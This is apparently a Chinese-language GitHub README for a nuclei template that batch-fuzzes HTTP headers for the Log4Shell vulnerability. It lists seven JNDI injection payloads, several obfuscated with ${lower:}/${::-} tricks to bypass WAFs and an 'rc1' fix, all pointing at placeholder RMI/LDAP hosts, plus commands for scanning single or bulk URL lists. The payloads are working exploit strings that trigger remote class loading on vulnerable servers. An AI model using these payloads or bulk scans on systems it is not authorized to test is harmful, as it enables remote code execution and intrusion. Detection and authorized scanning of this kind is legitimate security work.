 # log4j-fuzz-head-poc
针对 log4j批量fuzzz 头检测poc，有效检测一些头部存在的安全风险

添加了绕过rc1的poc

也同时添加了绕过waf拦截poc
```
${${::-j}${::-n}${::-d}${::-i}:${::-r}${::-m}${::-i}://asdasd.asdasd.asdasd/poc}
${${::-j}ndi:rmi://asdasd.asdasd.asdasd/ass}
${jndi:rmi://adsasd.asdasd.asdasd}
${${lower:jndi}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:${lower:jndi}}:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${lower:n}${lower:d}i:${lower:rmi}://adsasd.asdasd.asdasd/poc}
${${lower:j}${upper:n}${lower:d}${upper:i}:${lower:r}m${lower:i}}://xxxxxxx.xx/poc}
```


# 使用
```
/nuclei -t log4j-fuzz-head-poc.yaml -u http://www.test.com  -o res.txt  -rl 30 单个检测  速率为30

/nuclei -t log4j-fuzz-head-poc.yaml -l urls.txt  -o res.txt   -rl 30   批量检测  速率为30
```

![image](https://user-images.githubusercontent.com/50769953/145665694-21632dd2-7336-474b-80ed-9cdba4919898.png)

